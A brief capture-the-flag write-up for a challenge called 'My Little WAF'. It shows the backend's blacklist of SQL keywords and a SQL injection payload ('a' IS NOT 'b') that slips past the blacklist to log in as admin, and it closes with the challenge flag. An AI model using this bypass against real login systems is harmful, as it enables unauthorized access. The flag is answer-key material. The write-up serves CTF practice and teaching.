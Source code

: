 # My Little WAF

## Description
Can you break my little WAF?

### Author
Zain Ali Raza

## Solution

![image](https://github.com/0xZainRaza/DevDay24-CTF-Writeups/assets/154006182/ccc9c656-b242-40c5-9e88-d3cc0650c9fe)

There is a Blacklist used at the backend 

blacklist = ["or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/"]

Inorder to Bypass it our payload will be 
```bash
username=admin&password=a' IS NOT 'b
```

![image](https://github.com/0xZainRaza/DevDay24-CTF-Writeups/assets/154006182/7fff0da1-0942-4fe4-b94f-16cae038aefb)


**Flag:**
> DD24{bypassing_WAF_1s_n0t_4lw4ys_3asy}

